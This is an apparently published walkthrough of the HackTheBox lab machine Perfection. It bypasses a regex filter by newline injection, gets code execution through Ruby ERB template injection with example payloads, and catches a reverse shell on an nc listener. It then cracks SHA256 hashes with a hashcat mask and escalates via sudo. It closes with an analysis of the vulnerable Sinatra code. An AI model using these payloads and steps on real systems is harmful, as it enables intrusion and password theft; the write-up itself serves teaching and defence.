


# HTB: Perfection

[htb-perfection](/tags#htb-perfection ) [hackthebox](/tags#hackthebox )
[ctf](/tags#ctf ) [ubuntu](/tags#ubuntu ) [nmap](/tags#nmap )
[ruby](/tags#ruby ) [ruby-sinatra](/tags#ruby-sinatra ) [ruby-
webrick](/tags#ruby-webrick ) [ssti](/tags#ssti ) [ssti-ruby](/tags#ssti-ruby
) [feroxbuster](/tags#feroxbuster ) [newline-injection](/tags#newline-
injection ) [filter](/tags#filter ) [burp](/tags#burp ) [burp-
repeater](/tags#burp-repeater ) [ffuf](/tags#ffuf ) [erb](/tags#erb )
[hashcat](/tags#hashcat ) [hashcat-mask](/tags#hashcat-mask )  
  
Jul 6, 2024

HTB: Perfection

Perfection starts with a simple website designed to calculate weighted
averages of grades. There is a filter checking input, which I’ll bypass using
a newline injection. Then I can exploit a Ruby server-side template injection
to get execution. I’ll find a database of hashes and a hint as to the password
format used internally, and use hashcat rules to crack them to get root
access. In Beyond Root, I’ll look at the Ruby webserver and the SSTI
vulnerability.

## Box Info

Name | [Perfection](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fperfection)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fperfection)  
---|---  
Release Date | [02 Mar 2024](https://twitter.com/hackthebox_eu/status/1763247792300884374)  
Retire Date | 6 Jul 2024  
OS | Linux   
Base Points | Easy [20]  
Rated Difficulty |   
Radar Graph |   
 | 00:10:14[ celesian](https://app.hackthebox.com/users/114435)  
  
 | 00:22:11[ celesian](https://app.hackthebox.com/users/114435)  
  
Creator | [ TheRedeemed1](https://app.hackthebox.com/users/1412009)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.253
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-25 12:52 EDT
    Nmap scan report for 10.10.11.253
    Host is up (0.089s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds
    oxdf@hacky$ nmap -p 22,80 -sCV 10.10.11.253
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-25 13:13 EDT
    Nmap scan report for 10.10.11.253
    Host is up (0.086s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx
    |_http-title: Weighted Grade Calculator
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) version, the host is likely running Ubuntu 22.04 jammy.

### Website - TCP 80

#### Site

The site is a grade calculator:

 "Click to expand for full
content")

There are two links. The about page (`/about`) shows two team members:

The calculator (`/weighted-grade`) has a form that takes up to five grades
with weights:

To use it as intended:

On submitting, it shows:

#### Tech Stack

The page footer says “Powered by WEBrick 1.7.0”.
[Webrick](https://github.com/ruby/webrick) is a Ruby-based HTTP server. This
is also in the HTTP response headers:

    
    
    HTTP/1.1 200 OK
    Server: nginx
    Date: Tue, 25 Jun 2024 17:23:04 GMT
    Content-Type: text/html;charset=utf-8
    Connection: close
    X-Xss-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    X-Frame-Options: SAMEORIGIN
    Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
    Content-Length: 3842
    

The 404 page is interesting:

Image searching for that string shows a bunch of references to “Sinatra”:

[Sinatra](https://github.com/sinatra/sinatra) is a Ruby web application
framework.

#### Directory Brute Force

I’ll run `feroxbuster` against the site, but it finds nothing of interest:

    
    
    oxdf@hacky$ feroxbuster -u http://10.10.11.253
                                                                                                                                                                                                                       
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.10.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.11.253
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.10.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET       21l       37w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    200      GET      101l      390w     3842c http://10.10.11.253/
    200      GET      103l      387w     3827c http://10.10.11.253/about
    400      GET       13l       24w      279c http://10.10.11.253/plain]
    400      GET       13l       24w      274c http://10.10.11.253/[
    400      GET       13l       24w      274c http://10.10.11.253/]
    400      GET       13l       24w      279c http://10.10.11.253/quote]
    400      GET       13l       24w      283c http://10.10.11.253/extension]
    400      GET       13l       24w      278c http://10.10.11.253/[0-9]
    [####################] - 2m     30000/30000   0s      found:8       errors:0 
    [####################] - 2m     30000/30000   289/s   http://10.10.11.253/   
    

## Shell as susan

### Blocklist

#### Identify

In playing around a bit with the POST request to get the calculation, I’ll
find sometimes I get the message:

In the page that shows up as:

#### Get Bad Characters

Manually, I’ll see if I can figure out what’s being blocked in Burp Repeater.
I’ll take my payload and delete characters until I’m down to just one, and
it’s still returning “Malicious input blocked”:

It seems like there’s a list of bad characters. I’l use `ffuf` to try each
character with the following options:

  * `-u [url]` \- The target URL.
  * `-d [post data]` \- The POST data, also tells `ffuf` to send POST requests.
  * `-w [wordlist]` \- I’ll use `alphanum-case-extra.txt` from [Seclists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt) as it has most characters one per line.
  * `-mr Malicious` \- This will filter to only show responses that contain the string “Malicious”.

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=FUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://10.10.11.253/weighted-grade-calc
     :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/alphanum-case-extra.txt
     :: Data             : category1=FUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Regexp: Malicious
    ________________________________________________
    
    "                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 114ms]
    ;                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 165ms]
    *                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 165ms]
    &                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 188ms]
    (                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 188ms]
    .                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 188ms]
    >                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 206ms]
    ‍#                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 228ms]
    @                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 235ms]
    <                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 240ms]
    :                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 251ms]
    ,                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 252ms]
    ?                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 254ms]
    !                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 258ms]
    -                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 267ms]
    =                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 275ms]
    '                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 276ms]
    )                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 277ms]
    $                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 277ms]
    ^                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 126ms]
    `                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 168ms]
    _                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 209ms]
    \                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 217ms]
    [                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 255ms]
    ]                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 254ms]
    }                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 158ms]
    {                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 175ms]
    |                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 181ms]
    ~                       [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 174ms]
                            [Status: 200, Size: 5221, Words: 1174, Lines: 144, Duration: 157ms]
    :: Progress: [95/95] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
    

Very quickly I get a list of blocked characters, including most punctuation.

#### Imagining the Server

Thinking about how Ruby is checking for bad characters, a common pattern is to
use regular expressions (regex).

The code could be doing something like (in Ruby-like pseudocode):

    
    
    if params[:category1] =~ /[)."&<;?:-$!('*=>,#@`\[\]\^_}{|~]/
        [return "Malicious input"]
    end
    

Or it could be a negative check:

    
    
    if params[:category1] =~ /^[a-zA-Z0-9]+$/
        [return good result]
    else
        [return "Malicious input"]
    end
    

#### Newline Injection

The thing to notice is that in either of the above cases, the regex doesn’t
check across newlines. I exploited a similar vulnerability in PHP in [HTB
Clicker](/2024/01/27/htb-clicker.html#bypass-check-via-newline-injection). The
idea is that I can send something like “0xdf%0a$” and see if it is still
flagged, where “%0a” is a URL-encoded newline. I’m including something at the
front of the string in case the regex is like the second one above, where it
needs to match on something (if that “+” (one or more) was a “*” (zero or
more) I wouldn’t need it, but better to be safe).

It works:

`ffuf` confirms it works for all characters:

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=0xdf%0aFUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://10.10.11.253/weighted-grade-calc
     :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/alphanum-case-extra.txt
     :: Data             : category1=0xdf%0aFUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Regexp: Malicious
    ________________________________________________
    
    :: Progress: [95/95] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
    

### SSTI

#### Identify

Given that user input is being displayed back, it’s worth checking for SSTI.
There are several templating engines for Ruby / Sinatra, but the most common
on on the [intro page](https://sinatrarb.com/intro.html) is ERB.

The PayloadsAllTheThings page for [Ruby
SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
---basic-injections) shows that ERB injection would be `<%= 7*7 %>`. If that
displays back as 49, then I know it was run as Ruby code.

Sending that in a raw form breaks the page:

URL-encoding the potentially bad characters (selecting from “<” through “>” in
Repeater and hitting Ctrl-u) fixes that:

It works!

#### RCE POC

To check for full execution, I’ll replace “7*7” with
`IO.popen('id').readlines()`:

The server is running as susan, user id 1001, who is also in the sudo group.

#### Shell

To get a shell, I’ll replace `id` with a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

On sending that, it hangs, but there’s a connection at my listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.253 57674
    bash: cannot set terminal process group (1000): Inappropriate ioctl for device
    bash: no job control in this shell
    susan@perfection:~/ruby_app$
    

I’ll upgrade my shell using the [script / stty
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    susan@perfection:~/ruby_app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    susan@perfection:~/ruby_app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    susan@perfection:~/ruby_app$ 
    

And fetch `user.txt`:

    
    
    susan@perfection:~$ cat user.txt
    25d1353e************************
    

## Shell as root

### Enumeration

#### sudo

I already noted that susan is in the sudo group. Typically that means they can
run any command as any user. I’ll try `sudo -l` to list the configuration:

    
    
    susan@perfection:~$ sudo -l
    [sudo] password for susan: 
    

It’s prompting for a password, which I don’t have. I’ll have to come back when
I do.

#### Users

There’s no other users on this box with a home directory:

    
    
    susan@perfection:/home$ ls
    susan
    

No other users besides root with a shell:

    
    
    susan@perfection:~$ grep 'sh$' /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
    

susan’s home directory has a folder named `Migration` and another named
`ruby_app`:

    
    
    susan@perfection:~$ ls   
    Migration  ruby_app  user.txt
    

`Migration` has a SQLite database:

    
    
    susan@perfection:~/Migration$ ls
    pupilpath_credentials.db
    susan@perfection:~/Migration$ file pupilpath_credentials.db 
    pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
    

It has a single table with five users and hashes:

    
    
    susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db 
    SQLite version 3.37.2 2022-01-06 13:25:41
    Enter ".help" for usage hints.
    sqlite> .tables
    users
    sqlite> select * from users;
    1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
    2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
    3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
    4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
    5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
    

`ruby_app` has the code for the web application;

    
    
    susan@perfection:~/ruby_app$ ls 
    main.rb  public  views
    susan@perfection:~/ruby_app$ ls public/
    css  fonts  images
    susan@perfection:~/ruby_app$ ls views/
    about.erb  index.erb  weighted_grade.erb  weighted_grade_results.erb
    

`main.rb` is the full code, though there’s nothing interesting as far as
moving forward. I’ll look at it a little bit in Beyond Root.

#### Mail

In `/var/mail` there is a `susan` file:

    
    
    susan@perfection:/var/mail$ ls
    susan
    

The message reads:

> Due to our transition to Jupiter Grades because of the PupilPath data
> breach, I thought we should also migrate our credentials (‘our’ including
> the other students in our class) to the new platform. I also suggest a new
> password specification, to make things easier for everyone. The password
> format is:
>
> {firstname}_{firstname backwards}_{randomly generated integer between 1 and
> 1,000,000,000}
>
> Note that all letters of the first name should be converted into lowercase.
>
> Please hit me with updates on the migration when you can. I am currently
> registering our university with the platform.
>
>   * Tina, your delightful student
>

### Crack Hash

#### Identify Algorithm

The hash is 64 characters (32 bytes) long:

    
    
    oxdf@hacky$ echo -n "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" | wc -c
    64
    

That suggests it’s a SHA256 hash (or SHA2-256). It could also be a SHA3-256
hash, or some other more obscure types. I’ll start with SHA2.

#### Hashcat Masks

I’m going to create a `hashcat` mask to generate passwords that match the
format described in the email to break the hash for susan.

Most of the time I’ve shown `hashcat`, I’ve used attack mode 0, which is the
default. Here I’m going to use `-a 3` for “Brute-force”, which means try all
possible passwords that match the given mask.

The password mask will be a combination of static characters and variables,
where a variable is one of the [built-in
charsets](https://hashcat.net/wiki/doku.php?id=mask_attack#built-in_charsets):

    
    
    ?l = abcdefghijklmnopqrstuvwxyz
    ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
    ?d = 0123456789
    ?h = 0123456789abcdef
    ?H = 0123456789ABCDEF
    ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
    ?a = ?l?u?d?s
    ?b = 0x00 - 0xff
    

So as I want nine digits, I’ll use `?d` for a digit to make something like:

    
    
    susan_nasus_?d?d?d?d?d?d?d?d?d
    

Running it will suggest different possible hash formats:

    
    
    $ hashcat susan.hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d  
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    
    The following 8 hash-modes match the structure of your input hash:
    
          ‍# | Name                                                       | Category
      ======+============================================================+======================================
       1400 | SHA2-256                                                   | Raw Hash
      17400 | SHA3-256                                                   | Raw Hash
      11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian           | Raw Hash
       6900 | GOST R 34.11-94                                            | Raw Hash
      17800 | Keccak-256                                                 | Raw Hash
       1470 | sha256(utf16le($pass))                                     | Raw Hash
      20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated
      21400 | sha256(sha256_bin($pass))                                  | Raw Hash salted and/or iterated
    
    Please specify the hash-mode with -m [hash-mode].
    

I’ll start with 1400:

    
    
    $ hashcat susan.hash -m 1400 -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d  
    hashcat (v6.2.6) starting
    ...[snip]...
    abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
    ...[snip]...
    

### sudo

On Perfection, the password works for `sudo`:

    
    
    susan@perfection:~$ sudo -l
    [sudo] password for susan: 
    Matching Defaults entries for susan on perfection:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty
    
    User susan may run the following commands on perfection:
        (ALL : ALL) ALL
    

susan can run any command as any user. `sudo -i` will get an interactive shell
as root:

    
    
    susan@perfection:~$ sudo -i
    root@perfection:~# 
    

And I can read `root.txt`:

    
    
    root@perfection:~# cat root.txt
    a1e7faf8************************
    

## Beyond Root - Webserver

### Code

The full code for the webserver is in `main.rb`:

    
    
    require 'sinatra'
    require 'erb'
    set :show_exceptions, false
    
    configure do
        set :bind, '127.0.0.1'
        set :port, '3000'
    end
    
    get '/' do
        index_page = ERB.new(File.read 'views/index.erb')
        response_html = index_page.result(binding)
        return response_html
    end
    
    get '/about' do
        about_page = ERB.new(File.read 'views/about.erb')
        about_html = about_page.result(binding)
        return about_html
    end
    
    get '/weighted-grade' do
        calculator_page = ERB.new(File.read 'views/weighted_grade.erb')
        calcpage_html = calculator_page.result(binding)
        return calcpage_html
    end
    
    post '/weighted-grade-calc' do
        total_weight = params[:weight1].to_i + params[:weight2].to_i + params[:weight3].to_i + params[:weight4].to_i + params[:weight5].to_i
        if total_weight != 100
            @result = "Please reenter! Weights do not add up to 100."
            erb :'weighted_grade_results'
        elsif params[:category1] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category2] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category3] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category4] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category5] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:grade1] =~ /^(?:100|\d{1,2})$/ && params[:grade2] =~ /^(?:100|\d{1,2})$/ && params[:grade3] =~ /^(?:100|\d{1,2})$/ && params[:grade4] =~ /^(?:100|\d{1,2})$/ && params[:grade5] =~ /^(?:100|\d{1,2})$/ && params[:weight1] =~ /^(?:100|\d{1,2})$/ && params[:weight2] =~ /^(?:100|\d{1,2})$/ && params[:weight3] =~ /^(?:100|\d{1,2})$/ && params[:weight4] =~ /^(?:100|\d{1,2})$/ && params[:weight5] =~ /^(?:100|\d{1,2})$/
            @result = ERB.new("Your total grade is <%= ((params[:grade1].to_i * params[:weight1].to_i) + (params[:grade2].to_i * params[:weight2].to_i) + (params[:grade3].to_i * params[:weight3].to_i) + (params[:grade4].to_i * params[:weight4].to_i) + (params[:grade5].to_i * params[:weight5].to_i)) / 100 %>\%
" + params[:category1] + ": <%= (params[:grade1].to_i * params[:weight1].to_i) / 100 %>\%

" + params[:category2] + ": <%= (params[:grade2].to_i * params[:weight2].to_i) / 100 %>\%

" + params[:category3] + ": <%= (params[:grade3].to_i * params[:weight3].to_i) / 100 %>\%

" + params[:category4] + ": <%= (params[:grade4].to_i * params[:weight4].to_i) / 100 %>\%

" + params[:category5] + ": <%= (params[:grade5].to_i * params[:weight5].to_i) / 100 %>\%
").result(binding)
            erb :'weighted_grade_results'
        else
            @result = "Malicious input blocked"
            erb :'weighted_grade_results'
        end
    end
    

Ruby really likes `do` / `end` blocks. Sinatra brings the `get` and `post`
methods so a route can be defined as:

    
    
    get '/' do
        index_page = ERB.new(File.read 'views/index.erb')
        response_html = index_page.result(binding)
        return response_html
    end
    

It uses ERB (the templating engine) to load the template at `views/index.erb`,
and then the `binding` object is passed in which has the current context to
build the HTML. In this case, no variables are needed, but there could be some
in there.

All of the routes except for POST to `/weighted-grade-calc` take this
structure. POSTs to `/weighted-grade-calc` are handled in the last method. It
first checks the sum of the weights:

    
    
    post '/weighted-grade-calc' do
        total_weight = params[:weight1].to_i + params[:weight2].to_i + params[:weight3].to_i + params[:weight4].to_i + params[:weight5].to_i
        if total_weight != 100
            @result = "Please reenter! Weights do not add up to 100."
            erb :'weighted_grade_results'
    

If the sum of the weights isn’t 100, then it sets the `@result` variable and
uses a different way to pass that to `erb`, the `weighted_grade_result`
template. That template is mostly HTML, but has this one part:

    
    
    ...[snip]...
            <button type="submit">Submit</button>
            
Please enter a maximum of five category names, your grade in them out of 100, and their weight. Enter "N/A" into the category field and 0 into the grade and weight fields if you are not using a row.</
    p>
          </form>
          <%= @result %>
        

      

    ...[snip]...
    

`<%= @result %>` looks a lot like the SSTI payload I used above. In this case,
this is done securely.

If the weights do total 100, then there’s the check for each of the parameters
with regex to validate:

    
    
        elsif params[:category1] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category2] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category3] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category4] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category5] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:grade1] =~ /^(?:100|\d{1,2})$/ && params[:grade2] =~ /^(?:100|\d{1,2})$/ && params[:grade3] =~ /^(?:100|\d{1,2})$/ && params[:grade4] =~ /^(?:100|\d{1,2})$/ && params[:grade5] =~ /^(?:100|\d{1,2})$/ && params[:weight1] =~ /^(?:100|\d{1,2})$/ && params[:weight2] =~ /^(?:100|\d{1,2})$/ && params[:weight3] =~ /^(?:100|\d{1,2})$/ && params[:weight4] =~ /^(?:100|\d{1,2})$/ && params[:weight5] =~ /^(?:100|\d{1,2})$/
            @result = ERB.new("Your total grade is <%= ((params[:grade1].to_i * params[:weight1].to_i) + (params[:grade2].to_i * params[:weight2].to_i) + (params[:grade3].to_i * params[:weight3].to_i) + (params[:grade4].to_i * params[:weight4].to_i) + (params[:grade5].to_i * params[:weight5].to_i)) / 100 %>\%
" + params[:category1] + ": <%= (params[:grade1].to_i * params[:weight1].to_i) / 100 %>\%

" + params[:category2] + ": <%= (params[:grade2].to_i * params[:weight2].to_i) / 100 %>\%

" + params[:category3] + ": <%= (params[:grade3].to_i * params[:weight3].to_i) / 100 %>\%

" + params[:category4] + ": <%= (params[:grade4].to_i * params[:weight4].to_i) / 100 %>\%

" + params[:category5] + ": <%= (params[:grade5].to_i * params[:weight5].to_i) / 100 %>\%
").result(binding)
            erb :'weighted_grade_results'
    

For the categories, it must match `/^[a-zA-Z0-9\/ ]+$/`, so one or more
alphanumeric characters plus forward slash (for the N/A) and space. For rades
and weights, they must match `/^(?:100|\d{1,2})$/`, which is either “100” or
one or two digits. The `?:` tells ruby not to capture the result inside the
`()`.

I’ll come back to the next line on a good match in a minute.

If that match isn’t true, then it has a default result:

    
    
        else
            @result = "Malicious input blocked"
            erb :'weighted_grade_results'
        end
    end
    

The `@result` variable is set, and the template is rendered (safely) with the
static string.

### Vulnerability

The vulnerability lies in how it handles the valid submission. That’s why I
had to use newline injection to trick the regex into letting non-alphanumeric
characters in.

There are two lines of code:

    
    
            @result = ERB.new("Your total grade is <%= ((params[:grade1].to_i * params[:weight1].to_i) + (params[:grade2].to_i * params[:weight2].to_i) + (params[:grade3].to_i * params[:weight3].to_i) + (params[:grade4].to_i * params[:weight4].to_i) + (params[:grade5].to_i * params[:weight5].to_i)) / 100 %>\%
" + params[:category1] + ": <%= (params[:grade1].to_i * params[:weight1].to_i) / 100 %>\%

" + params[:category2] + ": <%= (params[:grade2].to_i * params[:weight2].to_i) / 100 %>\%

" + params[:category3] + ": <%= (params[:grade3].to_i * params[:weight3].to_i) / 100 %>\%

" + params[:category4] + ": <%= (params[:grade4].to_i * params[:weight4].to_i) / 100 %>\%

" + params[:category5] + ": <%= (params[:grade5].to_i * params[:weight5].to_i) / 100 %>\%
").result(binding)
            erb :'weighted_grade_results'
    

The first is generating HTML from an `ERB.new` call with an in-line template
(rather than in a file). It’s using the `result(binding)` to interpolate user
code into the ERB template.

The safe way to do this would be to calculate variables in the ruby, and pass
them into the template. The template can check if `@result` is set (which
maybe should be named `@error`), and display accordingly:

    
    
    <% if @result %>
      
<%= @result %>

    <% else %>
      
Your total grade is <%= @total_grade %>%

      <% @categories.each_with_index do |category, index| %>
        
<%= category %>: <%= @weighted_grades[index] %>%

      <% end %>
    <% end %>
    

